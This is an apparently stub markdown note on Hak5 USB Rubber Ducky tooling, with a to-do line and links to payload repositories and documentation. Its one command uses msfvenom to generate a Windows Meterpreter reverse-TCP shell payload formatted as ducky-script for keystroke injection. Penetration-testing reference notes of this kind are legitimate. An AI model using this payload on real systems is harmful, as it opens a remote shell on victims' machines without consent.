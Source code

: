 # Hak5

TODO: Fill the setup info with step by step that contains screenshots

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f ducky-script-psh
```

---
## References

### Source Repositories

- [Hak5: USB Rubber Ducky Payloads](https://github.com/hak5/usbrubberducky-payloads)

- [HaydenMeloche: USB Rubber Ducky Toolkit](https://github.com/HaydenMeloche/USB-Rubber-Ducky-Toolkit)

### Hak5

- [Payload Studio Community Edition](https://payloadstudio.com/community/)

- [Hak5 Payload Studio Documentation](https://docs.hak5.org/payload-studio/getting-started/overview)

- [Hak5 USB Rubber Ducky Documentation](https://docs.hak5.org/hak5-usb-rubber-ducky/)